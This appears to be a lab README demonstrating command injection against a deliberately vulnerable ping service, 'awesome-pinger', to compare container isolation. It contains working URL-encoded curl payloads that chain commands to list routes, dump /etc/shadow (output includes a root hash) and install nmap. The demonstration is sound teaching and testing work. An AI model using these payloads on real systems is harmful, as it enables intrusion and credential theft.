 ## RCE attack examples on pinger

Due to poor or missing input sanitization, the application awesome-pinger contains a critical vulnerability that allows an attacker to execute arbitrary code on the remote machine under the UID of the pinger user.

Using curl, it is possible to execute any binary available on the system — or even install new software and run a reverse tunnel.

We will demonstrate the impact of container isolation on the vulnerable binary at several levels: on a legacy virtual machine, using manually configured namespaces, and inside a Docker environment.

To exploit this, you need some knowledge of Bash command chaining and a few encoding tricks, since curl doesn’t handle certain special characters (like spaces, dots, etc.) very well.

### ASCII table link 

https://www.rapidtables.com/code/text/ascii-table.html


### List local routes

```bash
$ curl "http://probeeh:8080?ip=127.0.0.1%3Bnetstat%20-rn" | jq -r .message
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   813    0   813    0     0    391      0 --:--:--  0:00:02 --:--:--   391
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.140 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.086 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.087 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2049ms
rtt min/avg/max/mdev = 0.086/0.104/0.140/0.025 ms
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
0.0.0.0         10.1.8.1        0.0.0.0         UG        0 0          0 enp1s0
10.1.8.1        0.0.0.0         255.255.255.255 UH        0 0          0 enp1s0
10.4.8.0        0.0.0.0         255.255.255.0   U         0 0          0 enp1s0
```

### Get local password db

```bash
$ curl http://probeeh:8080?ip=127.0.0.1%3bcat%20%2fetc%2fshadow | jq .message -r
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1142    0  1142    0     0    546      0 --:--:--  0:00:02 --:--:--   546
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.086 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.088 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.081 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2064ms
rtt min/avg/max/mdev = 0.081/0.085/0.088/0.003 ms
root:$6$YMXWnS37FE7FROaI$rUPLf0aA/2YN5zTtlnZPnE9mElnVtATh0XG1.B3JzpHpEXgQOqv4S.6kFMlRZnelWevRElQjsl7Synk3Kq3us/::0:99999:7:::
bin:*:19820:0:99999:7:::
daemon:*:19820:0:99999:7:::
adm:*:19820:0:99999:7:::
lp:*:19820:0:99999:7:::
sync:*:19820:0:99999:7:::
shutdown:*:19820:0:99999:7:::
halt:*:19820:0:99999:7:::
mail:*:19820:0:99999:7:::
operator:*:19820:0:99999:7:::
games:*:19820:0:99999:7:::
ftp:*:19820:0:99999:7:::
nobody:*:19820:0:99999:7:::
systemd-coredump:!!:20108::::::
dbus:!!:20108::::::
sssd:!!:20108::::::
chrony:!!:20108::::::
tss:!!:20108::::::
rpc:!!:20108:0:99999:7:::
rpcuser:!!:20108::::::
sshd:!!:20108::::::
tcpdump:!!:20108::::::
```

### Install nmap

```bash
$ curl http://probeeh:8080?ip=127.0.0.1%3bdnf%20-y%20install%20nmap | jq .message -r
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2368    0  2368    0     0    233      0 --:--:--  0:00:10 --:--:--   606
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.089 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.088 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.082 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2046ms
rtt min/avg/max/mdev = 0.082/0.086/0.089/0.003 ms
Last metadata expiration check: 0:46:15 ago on Tue 17 Jun 2025 11:39:30 AM CEST.
Dependencies resolved.
================================================================================
 Package           Architecture   Version               Repository         Size
================================================================================
Installing:
 nmap              x86_64         3:7.92-3.el9          appstream         5.4 M
Installing dependencies:
 nmap-ncat         x86_64         3:7.92-3.el9          appstream         222 k

Transaction Summary
================================================================================
Install  2 Packages

Total download size: 5.7 M
Installed size: 24 M
Downloading Packages:
(1/2): nmap-ncat-7.92-3.el9.x86_64.rpm          1.4 MB/s | 222 kB     00:00    
(2/2): nmap-7.92-3.el9.x86_64.rpm               9.0 MB/s | 5.4 MB     00:00    
--------------------------------------------------------------------------------
Total                                           6.7 MB/s | 5.7 MB     00:00     
Running transaction check
Transaction check succeeded.
Running transaction test
Transaction test succeeded.
Running transaction
  Preparing        :                                                        1/1 
  Installing       : nmap-ncat-3:7.92-3.el9.x86_64                          1/2 
  Running scriptlet: nmap-ncat-3:7.92-3.el9.x86_64                          1/2 
  Installing       : nmap-3:7.92-3.el9.x86_64                               2/2 
  Running scriptlet: nmap-3:7.92-3.el9.x86_64                               2/2 
  Verifying        : nmap-ncat-3:7.92-3.el9.x86_64                          1/2 
  Verifying        : nmap-3:7.92-3.el9.x86_64                               2/2 

Installed:
  nmap-3:7.92-3.el9.x86_64             nmap-ncat-3:7.92-3.el9.x86_64            

Complete!
```